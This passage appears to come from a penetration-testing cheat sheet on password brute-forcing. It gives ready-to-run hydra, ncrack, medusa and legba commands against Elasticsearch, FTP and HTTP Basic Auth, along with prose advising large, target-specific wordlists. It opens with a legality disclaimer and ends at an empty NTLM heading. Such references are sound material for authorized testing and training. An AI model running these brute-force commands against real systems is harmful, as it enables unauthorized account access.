 Remember that brute-forcing Elasticsearch or any other system without proper authorization is illegal and unethical. Always ensure you have the necessary permissions and legal authorization before attempting any hacking activities.
```
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst localhost -s 9200 http-get /
```
### FTP

#### Brute Force

Brute force is a common method used to gain unauthorized access to FTP servers. It involves systematically trying all possible combinations of usernames and passwords until the correct credentials are found.

To perform a brute force attack on an FTP server, you can use tools like Hydra or Medusa. These tools allow you to automate the process of trying different username and password combinations.

Before attempting a brute force attack, it is important to gather information about the target FTP server. This includes identifying the FTP server software, as different software may have different vulnerabilities or default credentials.

Once you have gathered the necessary information, you can start the brute force attack by specifying the target FTP server, the username list, and the password list. The tool will then systematically try each combination until it finds the correct credentials.

To increase the chances of success, it is recommended to use a large password list that includes common passwords, as well as custom password lists that are specific to the target organization or individual.

It is important to note that brute force attacks can be time-consuming and resource-intensive. They can also be easily detected by intrusion detection systems (IDS) or by the target organization's security team. Therefore, it is important to use caution and consider the potential consequences before attempting a brute force attack.
```bash
hydra -l root -P passwords.txt [-t 32] <IP> ftp
ncrack -p 21 --user root -P passwords.txt <IP> [-T 5]
medusa -u root -P 500-worst-passwords.txt -h <IP> -M ftp
legba ftp --username admin --password wordlists/passwords.txt --target localhost:21
```
### HTTP Generic Brute

#### [**WFuzz**](../pentesting-web/web-tool-wfuzz.md)

### HTTP Basic Auth

#### [**WFuzz**](../pentesting-web/web-tool-wfuzz.md)
```bash
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst sizzle.htb.local http-get /certsrv/
# Use https-get mode for https
medusa -h <IP> -u <username> -P  <passwords.txt> -M  http -m DIR:/path/to/auth -T 10
legba http.basic --username admin --password wordlists/passwords.txt --target http://localhost:8888/
```
### HTTP - NTLM
